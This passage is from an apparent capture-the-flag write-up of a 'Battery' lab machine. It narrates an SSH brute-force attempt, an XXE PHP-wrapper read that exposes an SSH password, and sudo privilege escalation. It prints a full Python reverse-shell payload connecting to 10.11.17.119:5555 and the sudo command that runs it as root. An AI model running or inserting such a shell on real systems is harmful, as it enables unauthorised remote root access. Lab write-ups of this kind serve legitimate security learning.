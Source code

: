 {{< figure src="/battery/Untitled%2011.png" >}}

This reveals some usernames now for the SSH login: cyber and yash.

After trying to bruteforce these two accounts for30 minutes, I gave up.
This was probably a rabbit hole...

So I looked further in the payloads section for XXE, and found something called “PHP Wrapper Inside XXE”.
This could let us read the .php files for the restricted admin dashboard.

{{< figure src="/battery/Untitled%2012.png" >}}

Looking at the request, it is decoded with Base64.

Decoding it with CyberChef shows us the SSH password for the user “cyber”.

{{< figure src="/battery/Untitled%2013.png" >}}

# Gaining access

We SSH into the machine with our newly acquired credentials and get our first flag!

{{< figure src="/battery/Untitled%2014.png" >}}

We can also see that there is a Python script owned by root here.

{{< figure src="/battery/Untitled%2015.png" >}}

sudo -l reveals that our user “cyber” can run commands as root

{{< figure src="/battery/Untitled%2016.png" >}}

# Privilege Escalation

We can abuse this for privesc.
My first thought is creating a reverse python shell.

I delete the [run.py](http://run.py/) owned by root and create a new one.

Reverse shell payload in [run.py](http://run.py/):

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.17.119",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

I execute it with the allowed sudo command:

```bash
sudo /usr/bin/python3 /home/cyber/run.py
```

Back on my kali machine:

{{< figure src="/battery/Untitled%2017.png" >}}

With this, we can read all 3 flags (cyber, yash and root) to complete the room.